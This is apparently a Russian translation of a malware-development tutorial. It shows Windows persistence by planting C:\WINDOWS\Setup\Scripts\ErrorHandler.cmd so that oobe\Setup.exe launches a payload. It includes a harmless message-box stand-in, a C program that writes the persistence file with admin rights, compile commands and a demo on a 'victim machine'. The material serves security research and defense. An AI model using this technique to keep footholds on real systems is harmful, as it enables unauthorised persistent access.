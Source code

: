 \newpage
\subsection{88. разработка вредоносного ПО: закрепление (persistence) - часть 22. Windows Setup. Простой пример на C++.}

﷽

![pers](./images/104/2023-07-17_00-13.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через сценарий Windows Setup.     

### сценарий установки

`C:\WINDOWS\system32\oobe\Setup.exe` — это исполняемый файл операционной системы Windows. Директория `oobe` означает *"Out Of Box Experience"* — процесс настройки Windows при первом запуске, включающий создание учетной записи пользователя, настройку параметров, выбор настроек по умолчанию и т. д.     

![pers](./images/104/2023-07-16_22-58.png){width="80%"}    

Оказывается, если разместить полезную нагрузку в `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` будет загружать её при возникновении ошибки.     

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это `meow-meow` messagebox "вредоносное" приложение (`hack.c`):  

```cpp
/*
hack.c
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем файл `ErrorHandler.cmd` для закрепления:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

Как можно видеть, логика довольно простая.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-16_23-47.png){width="80%"}    

Затем перемещаем наш `ErrorHandler.cmd` в `C:\Windows\Setup\Scripts\`:     

![pers](./images/104/2023-07-17_00-10.png){width="80%"}    

Ок, следующий шаг - нужно запустить `Setup.exe` с ошибкой. Самый простой способ - выполнить `Setup.exe` без аргументов:     

```powershell
.\Setup.exe
```

![pers](./images/104/2023-07-17_00-13_1.png){width="80%"}    

Если открыть `Process Hacker` и посмотреть свойства `hack.exe`:     

![pers](./images/104/2023-07-17_01-52.png){width="80%"}    

Можно заметить, что его родительский процесс - `cmd.exe (7264)`,       

![pers](./images/104/2023-07-17_01-53.png){width="80%"}    

А его родительский процесс, в свою очередь, - `Setup.exe (4876)`:     

![pers](./images/104/2023-07-17_01-53_1.png){width="80%"}    

Как можно видеть, логика закрепления работает идеально! =^..^=         

### практический пример 2. скрипт закрепления

Для полноты эксперимента я создал файл `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", 
    GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Обратите внимание, что эту программу необходимо запускать с правами администратора, поскольку она пытается создать каталог и файл в `C:\WINDOWS`, что требует прав администратора.

![pers](./images/104/2023-07-17_02-12.png){width="80%"}    

### демонстрация 2

Давайте посмотрим, как все работает на практике. Компилируем наш скрипт закрепления:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-17_02-07.png){width="80%"}    

Затем просто запускаем его с административными привилегиями на машине жертвы:     

```powershell
.\pers.exe
```

![pers](./images/104/2023-07-17_02-13.png){width="80%"}    

В моем случае, перед запуском я удалил эту папку:    

![pers](./images/104/2023-07-17_02-10.png){width="80%"}    

Запускаем `Setup.exe` снова:    

![pers](./images/104/2023-07-17_02-15.png){width="80%"}    

![pers](./images/104/2023-07-17_02-15_1.png){width="80%"}    

Идеально! =^..^=    

### заключение

Это обычное имя файла установочного пакета. В данном случае оно является частью процесса установки и инициализации Windows. Файл используется во время установки операционной системы, а также при добавлении или изменении компонентов.     

Как видно, однако, следует отметить, что, хотя это легитимная часть операционной системы Windows, вредоносные программы иногда могут называть себя `Setup.exe`, чтобы избежать обнаружения.      

В папке `c:\WINDOWS\system32\oobe\` также находятся другие файлы:      

![pers](./images/104/2023-07-16_22-59.png){width="80%"}    

Я их не проверял.     

Этот трюк ранее исследовался [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

![pers](./images/104/2023-07-17_02-26.png){width="80%"}    

Я просто показываю "грязный" PoC-код на C: `pers.c`.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
